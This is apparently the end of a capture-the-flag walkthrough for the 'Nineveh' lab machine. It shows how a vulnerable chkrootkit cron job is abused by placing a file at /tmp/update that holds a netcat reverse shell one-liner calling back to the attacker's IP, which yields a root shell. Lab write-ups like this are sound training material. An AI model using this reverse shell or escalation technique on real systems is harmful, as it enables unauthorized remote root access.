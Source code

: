```
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/10 * * * * /usr/sbin/report-reset.sh

```

Looking further, we see an instance of chkrootkit running every minute and generating a report. Chkrootkit is vulnerable and will execute a file named /tmp/update with execute permissions. https://www.exploit-db.com/exploits/33899

We create this file and use a reverse shell one-liner. We catch the shell as admin the next time chkrootkit runs.

/tmp/update
```
amrois@nineveh:/tmp$ cat update
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 4499 >/tmp/f

```

Listener:
```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4499                                                                                                 
listening on [any] 4499 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.43] 32802
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 

```

# Proof.txt

root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Nineveh/images/Pasted%20image%2020211122094407.png)
